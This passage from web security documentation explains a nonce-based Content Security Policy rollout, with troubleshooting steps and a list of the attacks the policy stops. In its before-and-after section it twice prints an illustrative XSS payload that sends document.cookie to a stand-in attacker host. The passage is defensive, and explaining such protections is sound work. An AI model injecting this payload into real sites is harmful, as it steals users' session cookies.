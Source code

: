 ```javascript
// init.js
const config = JSON.parse(document.getElementById('app-config').textContent);
initApp(config);
```

### Issue 4: Third-Party Script Blocked

**Symptom**: Script from external domain blocked.

**Cause**: Domain not whitelisted in CSP.

**Fix**: Add domain to `script-src` in `Security::applyHeaders()`:
```php
$allowedDomains = [
    'https://cdn.jsdelivr.net',
    'https://example.com',  // Add new domain
];
$scriptSrc = "'self' 'nonce-{$nonce}' " . implode(' ', $allowedDomains);
```

---

## Security Benefits

### Before P0.4 (Vulnerable)

```html
<!-- Attacker injects this via XSS -->
<script>
    fetch('https://evil.com/steal?cookie=' + document.cookie);
</script>
```

**Result**: ❌ Script executes, cookies stolen

### After P0.4 (Protected)

```html
<!-- Same malicious script injected -->
<script>
    fetch('https://evil.com/steal?cookie=' + document.cookie);
</script>
```

**Result**: ✅ **Blocked by CSP** - script has no nonce, browser refuses to execute

**Browser Console**:
```
Refused to execute inline script because it violates Content Security Policy
```

### Protection Against

1. **XSS (Cross-Site Scripting)**: Malicious scripts cannot execute without nonce
2. **Clickjacking**: `frame-ancestors 'self'` prevents iframe embedding
3. **Data Injection**: `base-uri 'self'` blocks `<base>` tag attacks
4. **Form Hijacking**: `form-action 'self'` prevents exfiltration via forms
5. **Mixed Content**: `upgrade-insecure-requests` auto-upgrades HTTP to HTTPS

---